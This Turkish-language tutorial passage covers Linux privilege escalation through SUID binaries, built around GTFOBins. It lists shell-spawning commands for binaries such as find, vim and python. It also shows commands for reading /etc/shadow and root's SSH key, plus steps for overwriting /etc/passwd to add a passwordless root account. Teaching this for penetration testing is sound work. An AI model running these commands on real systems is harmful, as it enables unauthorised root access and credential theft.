 Analiz tamamlandığında, sıra sömürüye gelir. En güvenilir kaynağınız her zaman **[GTFOBins](https://gtfobins.github.io/)** olmalıdır.

---

## Bölüm 3: Sömürü Teknikleri ve Cephanelik

### 3.1. Doğrudan Komut Çalıştırma ve Shell Elde Etme

Bu, en basit ve en etkili yöntemdir.

| Binary | Sömürü Komutu                                        |
|--------|------------------------------------------------------|
| `bash` | `bash -p`                                            |
| `find` | `find . -exec /bin/sh -p \; -quit`                   |
| `vim`  | `vim -c ':!/bin/sh'`                                 |
| `nmap` | `nmap --interactive` (sonra `!sh`)                   |
| `python`| `python -c 'import os; os.system("/bin/sh")'`         |
| `php`  | `php -r "system('/bin/sh');"`                        |
| `perl` | `perl -e 'exec "/bin/sh";'`                          |
| `ruby` | `ruby -e 'exec "/bin/sh"'`                           |

### 3.2. Dosya Okuma/Yazma ile Yetki Yükseltme

Eğer SUID'li binary doğrudan shell vermiyor ama dosya işlemleri yapabiliyorsa, yaratıcı olmalıyız.

#### Strateji 1: Hassas Dosyaları Okuma

`cat`, `less`, `more`, `tail` gibi komutlar SUID'li ise, normalde okuyamayacağınız dosyaları okuyabilirsiniz.
```bash
# /etc/shadow dosyasındaki root hash'ini oku
/usr/bin/cat /etc/shadow

# SSH özel anahtarını oku
/usr/bin/less /root/.ssh/id_rsa
```
Elde edilen hash'ler `John the Ripper` veya `Hashcat` ile kırılabilir.

#### Strateji 2: Kritik Dosyaların Üzerine Yazma

`cp`, `mv`, `dd`, `tee` gibi komutlar SUID'li ise, bu en tehlikeli senaryolardan biridir.

*   **`/etc/passwd` Manipülasyonu:**
    1.  Parolasız yeni bir root kullanıcısı oluştur: `hacker::0:0:hacker:/root:/bin/bash`
    2.  Bunu geçici bir dosyaya yaz: `echo "hacker::0:0:hacker:/root:/bin/bash" > /tmp/new_passwd`
    3.  `cp` ile üzerine yaz: `cp /tmp/new_passwd /etc/passwd`
    4.  `su hacker` ile `root` ol.
